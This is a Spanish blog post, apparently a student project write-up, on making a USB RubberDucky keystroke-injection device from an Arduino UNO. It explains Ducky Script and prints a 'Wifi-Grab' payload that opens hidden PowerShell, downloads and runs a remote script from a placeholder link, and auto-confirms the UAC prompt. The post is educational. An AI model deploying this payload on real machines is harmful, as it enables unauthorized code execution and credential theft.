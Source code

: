 ```yaml
---
title: "COMO CREAR UN RUBBERDUCKY CON UN ARDUINO UNO"
layout: post
date: 2021-09-28 00:42
tag: Arduino UNO, RubberDucky, Hardware, Hack, Se tensó
image: 
headerImage: true
projects: true
hidden: true
description: "Como crear un rubberducky con un Arduino UNO"
category: project
author: Carlos
externalLink: false
---
```

Muy buenas todos, hace tiempo en el 2º año de SMR (Sistemas Microinformáticos y Redes) nos mandaron a toda la clase hacer un proyecto con el Arduino UNO, nos dieron la libertad de hacer cualquier cosa, hubo gente que hicieron una impresora, otros un semáforo con luces, otros un mini altavoz que emitia pitidos y yo me propuse hacer un RubberDucky con la placa Arduino UNO.
Entonces empecé a investigar y justamente [**S4vitar**](https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q) subió un vídeo de como convertir el arduino uno en un rubberducky, parece que los planetas se alienaron porque la verdad es que no se. 
## Tabla de contenido
* [Introducción al USB RubberDucky](#introducción-al-usb-rubberducky)
* [Lenguaje del código de un RubberDucky](#lenguaje-del-código-de-un-rubberducky)
* [Introducción al Arduino UNO](#introducción-al-arduino-uno)
* [Instalando Duckduino](#instalando-duckduino)
* [Comenzamos a reconfigurar el Arduino](#comenzamos-a-reconfigurar-el-arduino)
* [Preparando el Arduino antes de conectarlo](#preparando-el-arduino-antes-de-contectarlo)
* [Preparando el script a cargar en el Arduino](#preparando-el-script-a-cargar-en-el-arduino)
* [Subimos el código al Arduino / RubberDucky](#subimos-el-código-al-arduino-/-rubberducky)
* [Ejecutamos el paso final para escribir el firmware del teclado](#ejecutamos-el-paso-final-para-escribir-el-firmware-del-teclado)
* [Probando nuestro RubberDucky 100% funcional](#probando-nuestro-rubberducky-100-funcional)

## Introducción al USB RubberDucky
> Por rubber ducky se conoce a un dispositivo USB que contiene información "maliciosa" la cual podría infectar tu PC una vez que lo conectas a ella. Esta información podría ser un keylogger, un encriptador de información o cualquier otra herramienta para apropiarse de tu **información** o negarte el uso a ella.

<div class="usb">
    <img src="/assets/images/rubberducky1.jpg" align="right">
</div>

> <p>Al momento de conectar este USB, es reconocido con un dispositivo HID, haciéndose pasar por un teclado normal (para no levantar sospechas y evitar que sea bloqueado por antivirus o firewall) y ejecuta las teclas indicadas en su código.</p>
> <p>En definitiva, es un ataque que puede sembrar el caos en una empresa porque si alguien deja un pendrive en una mesa es casi al 100% seguro que alguien lo enchufara para ver qué es y lo que menos se puede imaginar es que este USB este enviando una reverse shell o que este desactivando programas.</p>

## Lenguaje del código de un RubberDucky
- REM --> Indica comentarios, estas lineas no ejecutan nada. 
- DELAY --> Hace una pausa, en el caso del ejemplo de 3 segundos al principio y más adelante de medio segundo para esperar a que salga la ventana de ejecutar. 
- GUI r --> Es la pulsación de la tecla WIN y la “r”, que sirve para los sistemas operativos Windows para mostrar rápidamente la ventana de ejecutar. 
- STRING --> Es la pulsación de todas las teclas de manera automática y a gran velocidad. 
- ENTER --> Pulsa la tecla enter.
- WINDOWS --> Menú Windows.
- UPARROW --> Tecla arriba.
- DOWNARROW --> Tecla abajo.
- LEFTARROW --> Tecla a la izquierda.
- RIGHTARROW --> Tecla derecha.
- CAPS |CAPSLOCK --> BloqMayús.
- REPEAT X --> Repetir X número de veces el comando anterior.
- DELETE --> Simula la tecla suprimir
#### Se puede incluso utilizar algunas (pero no todas) de dos a tres combinaciones de teclas:
- SHIFT ENTER
- CTRL ALT DEL
- ALT F4
- WINDOWS X
- ALT TAB
- WINDOWS R

{% highlight c %}
REM Wifi-Grab
DELAY 500
GUI r
REM Delays 0.2 seconds to give the Run prompt time to open.
DELAY 200
REM this command will download the text and save as d.ps1 then run
REM if the script failed to run change the ExecPolicy to Bypass
STRING powershell /w 1 /C Set-ExecutionPolicy RemoteSigned;wget "DOWNLOAD_LINK" -o \d.ps1;\d.ps1
REM Presses Ctrl + Shift + Enter to execute the PowerShell with administrative privileges.
CTRL-SHIFT ENTER
REM Delay 0.5 seconds to give the UAC prompt time to open.
DELAY 500
REM Presses Alt + Y to bypass UAC.
ALT y
{% endhighlight %}
En el caso de utilizar Arduino hay que convertir este código con alguno de los conversores [Duckduino](https://github.com/Dukweeno/Duckuino) o [Ducky2Arduino](https://github.com/kr0no/Ducky2Arduino). [Aquí](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads) os dejo un repositorio de Github donde se encuentran bastantes scripts para utilizar, solo son compatibles con el usb rubberducky.
<p>Pero nosotros no vamos a utilizar estos conversores porque después nos montaremos nuestro propio script con el lenguaje de Arduino que es parecido a C.</p>

## Introducción al Arduino UNO
Arduino no es más que una plataforma de electrónica *open-source*o de código abierto cuyos principios son contar con software y hardware fáciles de usar. Básicamente lo que permite esta herramienta es la generación de infinidad de tipos de microordenadores de una sola placa, que luego pueden tener una amplia variedad de usos según la necesidad de la persona que lo cree.
<img src="/assets/images/arduinoUNO.jpg" align="right" height="150px" width="150px" >
Cuenta con microcrontroladores reprogramables y una serie de pines hembras. Esto pues basicamente permiten establecer conecciones entre el microcontrolador y los diferentes sensores y actuadores de una manera bastante sencilla, generalmente suele ser con cables [Dupons](https://www.amazon.com/dupont-cable/s?k=dupont+cable).
Entonces el Arduino UNO de hoy podemos programarlo entre comillas para que actue como un RubberDucky.
